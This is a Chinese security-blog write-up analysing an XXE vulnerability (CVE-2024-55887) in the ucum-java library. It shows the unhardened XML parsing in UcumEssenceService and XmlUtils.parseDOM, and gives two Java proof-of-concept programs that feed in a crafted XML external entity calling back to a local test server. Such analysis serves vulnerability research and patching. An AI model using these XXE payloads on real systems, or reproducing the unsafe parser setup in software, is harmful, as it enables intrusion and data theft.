




# Ucum-java XXE漏洞分析(CVE-2024-55887)-先知社区

> **来源**: https://xz.aliyun.com/news/16208  
> **文章ID**: 16208

---

# 漏洞通告



# UcumEssenceService漏洞分析

根据漏洞通告了解到是XXE漏洞，漏洞信息说是`UcumEssenceService` 存在漏洞

直接定位`UcumEssenceService`

```
public UcumEssenceService(InputStream stream) throws UcumException  {
        super();
        assert stream != null : paramError("factory", "stream", "must not be null");
        try {
            model = DefinitionsProviderFactory.getProvider().parse(stream);
        } catch (Exception e) {
            throw new UcumException(e); 
        }
    }

```

`DefinitionsProviderFactory.getProvider().parse(stream);`的stream直接通过参数获取的，那么这里就没有什么好分析的了，直接构造payload

```
public class Main {
    public static void main(String[] args) throws UcumException {

        String maliciousXml = "<?xml version = \"1.0\" encoding = \"utf-8\"?>\n" +
                "<!DOCTYPE test [\n" +
                "    <!ENTITY file SYSTEM \"http://127.0.0.1:8000/xxe\">\n" +
                "]>\n" +
                "<author>&file;</author>";
        InputStream inputStream = new ByteArrayInputStream(maliciousXml.getBytes());

        UcumEssenceService ucumEssenceService = new UcumEssenceService(inputStream);
        System.out.println("Hello, World!");
    }
}

```



# 意外收获

漏洞通过说1.09已经修复了此漏洞，那么查看一下如何修复的

但是发现官方修复的是`XmlUtils<font style="color:rgb(89, 99, 110);background-color:rgb(221, 244, 255);">`



# XmlUtils漏洞分析

parseDOM是个静态方法，而且`builder.parse(stream);`的`stream`参数也是通过传参获取的

```
public static Document parseDOM(InputStream stream) throws ParserConfigurationException, SAXException, IOException {
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    factory.setNamespaceAware(false);
    DocumentBuilder builder = factory.newDocumentBuilder();
    Document doc = builder.parse(stream);
    return doc;
  }

```

和`UcumEssenceService` 漏洞原因基本一样，那么直接构造payload进行验证

```
public class Main {
    public static void main(String[] args) throws ParserConfigurationException, IOException, SAXException {

        String maliciousXml = "<?xml version = \"1.0\" encoding = \"utf-8\"?>\n" +
                "<!DOCTYPE test [\n" +
                "    <!ENTITY file SYSTEM \"http://127.0.0.1:8000/xxe\">\n" +
                "]>\n" +
                "<author>&file;</author>";
        InputStream inputStream = new ByteArrayInputStream(maliciousXml.getBytes());
        Document doc = XmlUtils.parseDOM(inputStream);
    }
}

```

漏洞验证成功


